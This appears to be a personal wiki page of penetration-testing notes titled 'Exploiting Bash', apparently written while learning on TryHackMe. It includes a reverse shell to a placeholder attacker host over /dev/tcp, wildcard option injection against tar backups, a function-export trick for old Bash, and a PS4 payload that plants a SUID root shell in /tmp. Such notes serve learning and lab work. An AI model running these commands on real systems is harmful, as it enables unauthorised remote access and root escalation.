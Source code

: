 # Exploiting Bash

## A Simple Reverse Shell

```bash
bash -li &> /dev/tcp/$ATTACKER_IP/$LISTENER_PORT 0>&1
```

Catch it with [netcat](netcat.md) or [socat](socat.md).

(That said, the fact that all of my file descriptors wind up pointing at /dev/tcp is a little mysterious to me. I *think* what’s happening here is that /dev/tcp is bidirectional “out of the box” — incoming data comes out, just as outgoing data goes in — so binding all three “core” file descriptors to it does the right thing. That, and realize that the `X>&Y` construct means “bind file descriptor X to file descriptor Y”, and `&>` is just short for `2>&1 >`, and `>` is just short for `1 >`. So really what’s happening here is that we bind STDERR to STDOUT with and implicit `2>&1`, then bind STDOUT to /dev/tcp with an implicit `1 >`, then bind STDIN to /dev/tcp as well with `0>&1`.)

## Using Wildcard Expansion to Pass Command Line Options

The wildcard expansion (`*`) in Bash scripts doesn’t get pushed to the command, but is instead expanded in place. This means that files named like command-line switches *will be interpreted as command line switches*. This can be used, for example, to exploit sloppy [tar](exploiting-tar.md)-based backup scripts.

## Exploiting Functions in Bash < 4.2-048

In versions of Bash < 4.2-048, it’s possible to export functions with the same form as absolute paths to files. These functions will then be executed instead of the fully-specified path *if* the calling application is relying on the current shell for helper execution.

For example:

```bash
function /path/to/executable { /bin/bash -p; }
export -f /path/to/executable
```

## Exploiting PS4 in Bash < 4.4

When bash is in debugging mode (SHELLOPTS=xtrace), the PS4 prompt is used to display debugging information.

*It would appear that this prompt somehow inherits the permissions of the executable being run.* This includes SUID/SGID permissions (at least for Bash < 4.4)!

If you have access to a SUID/SGID executable, this can be abused to create root shells:

```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /path/to/suid/executable
```

Again, this only works *if* the calling application is relying on the current shell for helper execution.

## Avoid Dropping Privileges with SUID Bash

Bash will drop privileges by default if SUID. To avoid this, simply supply the `-p` flag. (Not sure how useful this is beyond CTFs…)

## References

* [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* [TryHackMe - Complete Beginner](tryhackme-complete-beginner.md)

- - - -

👤 Nathan Acks
📅 October 29, 2021
